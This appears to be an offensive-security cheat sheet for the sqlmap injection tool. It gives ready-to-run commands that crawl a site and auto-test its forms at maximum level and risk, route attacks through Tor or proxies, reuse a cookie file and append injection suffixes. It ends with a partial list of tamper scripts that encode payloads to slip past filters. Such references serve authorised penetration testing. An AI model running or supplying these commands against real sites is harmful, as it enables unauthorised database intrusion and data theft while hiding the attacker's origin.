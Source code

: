 #### **Crawl a website with SQLmap and auto-exploit** ####

```
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

#### **Using TOR with SQLmap** ####

```
sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```

#### **Using a proxy with SQLmap** ####

```
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
```

#### **Using Chrome cookie and a Proxy** ####

```
sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
```

#### **Using suffix to tamper the injection** ####

```
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

#### **General tamper option and tamper's list** ####

```
tamper=name_of_the_tamper
```

| Tamper                       | Description                                                                                                                                        |
| ---------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| 0x2char.py                   | Replaces each (MySQL) 0x encoded string with equivalent CONCAT(CHAR(),…) counterpart                                                               |
| apostrophemask.py            | Replaces apostrophe character with its UTF-8 full width counterpart                                                                                |
| apostrophenullencode.py      | Replaces apostrophe character with its illegal double unicode counterpart                                                                          |
| appendnullbyte.py            | Appends encoded NULL byte character at the end of payload                                                                                          |
| base64encode.py              | Base64 all characters in a given payload                                                                                                           |
| between.py                   | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #'                                                                                    |
| bluecoat.py                  | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator                 |
| chardoubleencode.py          | Double url-encodes all characters in a given payload (not processing already encoded)                                                              |
| charencode.py                | URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %53%45%4C%45%43%54)                                 |
| charunicodeencode.py         | Unicode-URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %u0053%u0045%u004C%u0045%u0043%u0054)       |
| charunicodeescape.py         | Unicode-escapes non-encoded characters in a given payload (not processing already encoded) (e.g. SELECT -> \u0053\u0045\u004C\u0045\u0043\u0054)   |
| commalesslimit.py            | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'                                                                                       |
| commalessmid.py              | Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'                                                                                  |